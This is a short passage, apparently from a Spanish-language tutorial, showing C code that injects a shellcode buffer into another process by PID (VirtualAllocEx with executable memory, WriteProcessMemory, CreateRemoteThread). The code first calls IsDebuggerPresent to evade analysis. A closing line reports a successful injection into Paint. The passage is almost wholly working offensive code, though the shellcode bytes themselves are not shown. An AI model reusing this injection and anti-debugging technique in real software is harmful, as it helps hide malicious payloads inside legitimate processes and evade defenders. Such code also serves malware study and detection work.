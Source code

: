 ```c

		
	if (IsDebuggerPresent()){ 
		MessageBox(NULL, "ESTOY EN UN DEBUGGER >_<", "HOLA", MB_OK); //si detecta que esta en un debugger muestra una ventana con un mensaje
	}else{ 
		
		HANDLE hProcess = OpenProcess(
			PROCESS_ALL_ACCESS, 
			TRUE,
			8664 //PID del proceso
		);
		
		void* exec_mem = VirtualAllocEx(
			hProcess,
			NULL, 
			sizeof(shellcode), 
			MEM_COMMIT | MEM_RESERVE, 
			PAGE_EXECUTE_READWRITE 
		);
		
		WriteProcessMemory(
			hProcess, 
			exec_mem, 
			shellcode, 
			sizeof(shellcode), 
			NULL 
		);
		
		HANDLE hTread = CreateRemoteThread(
			hProcess, 
			NULL,
			0,
			(LPTHREAD_START_ROUTINE)exec_mem, 
			NULL, 
			0, 
			0 
		);
		
		CloseHandle(hProcess);
	}
		
	return 0;
}

```

Cuando lo ejecutamos, podemos ver como se desprende un hilo del proceso donde se inyecto la shellcode, en este caso fue paint

